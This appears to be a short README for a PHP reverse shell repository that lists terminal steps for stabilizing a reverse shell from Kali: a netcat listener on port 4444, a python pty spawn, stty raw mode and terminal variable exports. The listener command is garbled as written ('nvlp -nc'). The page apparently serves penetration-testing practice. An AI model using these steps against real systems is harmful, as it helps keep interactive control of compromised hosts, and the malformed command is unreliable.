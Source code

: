 # php-reverse-shell


## Stabilize reverse Shell

-Do this on Kali, zsh shell gives error with turning enter in to ^M

&emsp;&emsp;&emsp;&emsp;exec bash --login

-Check if bash is active.

&emsp;&emsp;&emsp;&emsp;ps -p $$ 

-get vars 

&emsp;&emsp;&emsp;&emsp;echo $TERM

&emsp;&emsp;&emsp;&emsp;stty -a 

-Setup shell nc 

&emsp;&emsp;&emsp;&emsp;nvlp -nc 4444

&emsp;&emsp;&emsp;&emsp;$ python -c 'import pty; pty.spawn("/bin/bash")'

&emsp;&emsp;&emsp;&emsp;Ctrl-Z

-In terminal

&emsp;&emsp;&emsp;&emsp;$ stty raw -echo

&emsp;&emsp;&emsp;&emsp;$ fg

-In reverse shell

&emsp;&emsp;&emsp;&emsp;$ reset

&emsp;&emsp;&emsp;&emsp;$ export SHELL=bash

&emsp;&emsp;&emsp;&emsp;$ export TERM=xterm-256color

&emsp;&emsp;&emsp;&emsp;$ stty rows <num> columns <cols>


-not always needed.
  
&emsp;&emsp;&emsp;&emsp;export TERM=xterm
  
  
  
  
  
  
  
  
  
  original code : https://github.com/pentestmonkey/php-reverse-shell
